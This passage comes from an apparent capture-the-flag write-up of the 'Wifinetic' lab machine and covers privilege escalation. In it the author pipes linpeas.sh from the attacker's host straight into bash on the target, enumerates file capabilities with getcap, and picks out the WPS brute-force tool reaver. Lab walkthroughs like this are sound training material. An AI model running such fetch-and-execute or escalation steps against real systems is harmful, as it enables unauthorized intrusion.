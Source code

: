 There are multiple network interfaces which could mean something. Since we don't see any direct privelege escalation path, we can try getting some help by running the [`linpeas.sh`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) script on the target:

```bash
# launch a python server from the directory where linpeas.sh is located
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

We can now execute the script directly from the target without actually transferring the file:

```bash
# execute linpeas.sh from target
netadmin@wifinetic:~$ curl http://10.10.14.15:8888/linpeas.sh | bash

<SNIP>

╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities

<SNIP>

Files with capabilities (limited to 50):
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep

<SNIP>
```

We have used **capabilities** for privilege escalation [before](https://cspanias.github.io/posts/THM-Kiba/#32-capabilities), so let's try to replicate this here:

>  Linux divides the privileges traditionally associated with superuser into distinct units, known as [capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html), which can be independently enabled and disabled. Capabilities are a per-thread attribute. In brief, capabilities provide granular control of the root’s permissions. 

```bash
# search for files with capabilities
netadmin@wifinetic:~$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep
```

Sadly, this time none of the files above is listed on the [GTFOBins](https://gtfobins.github.io/) website. However, the `reaver` tool kind of stands out from the above list. [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) is an open-source command-line tool used for performing **brute-force attacks against Wifi Protected Setup (WPS) registrar PINs in order to recover WPA/WPA2 passphrases**.
